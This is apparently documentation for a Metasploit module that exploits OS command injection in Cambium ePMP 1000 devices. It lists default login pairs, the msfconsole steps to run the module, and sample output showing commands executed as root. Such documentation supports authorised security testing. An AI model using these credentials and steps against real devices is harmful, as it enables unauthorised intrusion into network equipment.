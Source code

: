 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 (<v2.5) device management portal.
It requires any one of the following login credentials to execute arbitrary system commands:

1. admin/admin
2. installer/installer
3. home/home

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/epmp1000_cmd_exec
msf auxiliary(epmp1000_cmd_exec) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_cmd_exec) > set rport 80
msf auxiliary(epmp1000_cmd_exec) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 2.2...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[*] 1.3.3.7:80 - Executing id; pwd
uid=0(root) gid=0(root)
/www/cgi-bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
